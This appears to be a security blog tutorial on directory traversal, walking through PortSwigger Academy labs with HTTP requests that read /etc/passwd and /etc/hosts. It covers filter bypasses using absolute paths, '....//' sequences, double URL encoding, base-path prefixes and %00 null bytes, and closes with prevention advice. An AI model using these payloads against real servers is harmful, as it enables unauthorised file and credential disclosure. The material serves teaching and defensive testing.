

In this post we will be taking a look at the directory traversal or path traversal vulnerability. I'll go over what directory traversal exactly is, how we can weaponize it, how we can bypass common protections and misconfigurations and lastly how to prevent it within your own web application. While elaborating on this topic, I will be going through several easy and more advanced examples that are available for free at [PortSwigger Academy](https://portswigger.net/web-security/file-path-traversal)

## What is Directory Traversal?
Directory traversal or path traversal is an HTTP attack which allows attackers to access restricted directories and execute commands outside of the web server’s root directory. Directory Traversal vulnerabilities are extra powerfull when chained with local file inclusion vulnerabilities. Through the access to restricted directories and files, attack might access sensitive data such as database or web application credentials, and leverage this data to proceed further within the attack chain and possibly take over the target server. 

In order to showcase this vulnerability, we will go over a simple example. BurpSuite does not automatically render image data within its HTTP history. To enable this, navigate to Proxy --> HTTP History --> Filter --> check "images". 

The following web application contains a file path traversal vulnerability in the display of product images. Our task is to retrieve the contents of the /etc/passwd file. When we navigate to a product, we can see that a GET request is sent to access the .jpg image file that is rendered on the web page.

```HTTP
GET /image?filename=17.jpg
```

Often times vulnerabilities such as SQLi, path traversals, LFI/RFI and XSS are found in web applications that allow user input within their parameters. In this case, we find a URL that accesses a specific file, which we can supply user data to. Let's see if we can manipulate the filename parameter to trigger a path traversal attack.

When we retrieve the 17.jpg file, we can see that the response is 148533 bytes in length. We can also retrieve the 18.jpg, by sending the following HTTP request. 

```HTTP
GET /image?filename=18.jpg HTTP/1.1
```

Which responds with an image of 133506 bytes. Let's see if we can also access other files.

```HTTP
GET /image?filename=/etc/passwd HTTP/1.1
```

Which responds with

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"No such file"
```

The reason for this is that we are trying to access /etc/passwd file within the current directory that we are in. In this case, the /etc/passwd is not rendered as a full path, thus the web application cannot find it. We can add a series of ../../../../ to our payload in order to move back to the root directory, and then access /etc/passwd like so.

```HTTP
GET /image?filename=../../../../../../../etc/passwd HTTP/1.1
```

The server responds with.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

We are able to read files from the file system! Let's see what permissions we have. Let's try to request /etc/shadow file, which is only available to the root user.

```HTTP
GET /image?filename=../../../../../../../etc/shadow HTTP/1.1
```

The server responds with a 400 Bad Request.

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"No such file"
```

When we try to access files that we do not have permissions to access, we get a "no such file error". Often this vulnerability allows users to read all files as the www-data, nginx or apache user, as the web application is requesting these files. 

When you are testing for this vulnerability, the key is to find a file that exists. For this we can use commonly available files, or a [cheat sheet](https://pentestlab.blog/2012/06/29/directory-traversal-cheat-sheet/) with available payloads.

## Common Directory Traversal Obstacles and Bypasses
Often times web applications are protected again path traversal attacks like the one specified above. In this case, it is often necessary to test several bypasses in order to still trigger the vulnerability. This section goes through some of the most common directory traversal bypasses and specifies an example for each one. 

### Absolute Path Bypass
A very simple bypass would be to specify the absolute path of a file, ensuring that no traversal sequences are used. Let's take a look at an example. In the last example we couldn't use absolute paths. Let's try to access /etc/passwd through a traversal sequence.

```HTTP
GET /image?filename=../../../../../etc/passwd HTTP/1.1
```

At which the server responds with.

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"No such file"
```

In this case, we have to specify the absolute path like so.

```HTTP
GET /image?filename=/etc/passwd HTTP/1.1
```

At which the server responds with.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

### Traversal Sequences Stripped Non-Recursively
Some web applications attempt to manually strip directory traversal payloads. If we were to supply a ../ payload, it would fully remove it from the request. In this case, as the web application is stripping it non-recursively, we can add a double payload in order to ensure that the web application will still interpret the payload. Let's take a look at an example.

```HTTP
GET /image?filename=../../../../../etc/passwd HTTP/1.1
```

We do not manage to read the /etc/passwd payload.

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"No such file"
```

But if we use the following payload

```HTTP
GET /image?filename=....//....//....//....//....//etc/passwd HTTP/1.1
```

We do manage to read the /etc/passwd file.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

The reason for this is that when you strip ../ from ....// you will still end up with a traversal sequence of ../

### Traversal Sequences Stripped with Superfluous URL-Decode
If the example above does also not bypass the defense mechanisms, we can sometimes bypass this sort of sanitization through (double) URL-encoding or various other non-standard encodings of the traversal sequence. Let's take a look at an example. Let's start with the basic payload, which does not work. 

```HTTP
GET /image?filename=../../../../../../../../etc/passwd HTTP/1.1
```

We can then attempt a single URL-encoding scheme for our traversal sequence. 

```HTTP
GET /image?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd HTTP/1.1
```

Which does also not work. Let's encode the traversal sequence a second time.

```HTTP
GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd HTTP/1.1
```

And we manage to read the /etc/passwd file again.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

We could also use the BurpSuite intruder to automate the process of finding the path traversal vulnerability for us. To do so, we can send this request to the intruder, and set the attack type to "sniper", and set the vulnerable parameter as our injection point.

```HTTP
GET /image?filename=§vulnerable§ HTTP/1.1
Host: ac7f1f4d1e1e18fdc019168000b70057.web-security-academy.net
Cookie: session=GkySQxdb0XS5sKMQ3DqsDp2rCd4q912s
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://ac7f1f4d1e1e18fdc019168000b70057.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: nl-NL,nl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

We can then specify "Fuzzing - Path Traversal" list as our payload. When filter the results, we can see that one of the payloads worked.

<p>
	
</p>

It ended up sending the following request.

```HTTP
GET /image?filename=%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252f%2e%252e%252fetc%2fhosts HTTP/1.1
```

At which the server responded with.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 174

127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.4	bcbd56dfad26
```

This technique is useful to save time during an assignment, or to double check that you didn't miss any obvious payload. 

### Start of Path Validation Bypass
Sometimes the web application expected the path to start with an expected base folder. We can then use traversal sequences to break out of the folder, and access a file on the file system. Let's take a look at the following example. When we load the web page, we can see the following standard GET request.

```HTTP
GET /image?filename=/var/www/images/4.jpg HTTP/1.1
```

This already helps us, as we now know where exactly the images are saved. If we were to specify our regular payload like so, it would not work. 

```HTTP
GET /image?filename=../../../etc/passwd HTTP/1.1
```

Let's try to access the /etc/passwd file by moving from the images path back to the root directory and then access the file.

```HTTP
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
```

Which returns the file for us.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

### Null Byte Bypass
Finally, we can use null bytes to bypass applications that require that user-supplied filenames must end with an expected file extension. As we are dealing with images, the web application might want our requests to end with .jpg or .png. We can use a null byte to specify an end of operation instruction. In web applications we can use the %00 syntax for this. Let's take a look at the following example. If we use our regular payload, we will not see a response.

```HTTP
GET /image?filename=../../../../../etc/passwd HTTP/1.1
```

However, if we make the web application think that we are specifying an image file, but actually specifying a null byte in order to terminate the file path before the required extension, we can bypass this check.

```HTTP
GET /image?filename=../../../../../etc/passwd%00.png HTTP/1.1
```

And we see the contents of the /etc/passwd file.

```HTTP
HTTP/1.1 200 OK
Content-Type: image/png
Connection: close
Content-Length: 1256

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

## How to Prevent a Directory Traversal Attack
In order to protect a web application from becoming vulnerable to directory traversal attacks, there are several steps we have to take.

1. It is important to minimize the possibility for user input when using system calls. 
2. When user input is required, ensure that the user cannot supply all parts of the path.
3. Implement white listing (accept known good) instead of black listing.
4. Use normalization functions to normalize user input for file operations.

The bottom line is, try to prevent users from passing in user-supplied input to the file system API at all costs. If this is not possible, mitigate risks by implementing several defensive mechanisms in order to construct a defense-in-depth defensive mechanism. 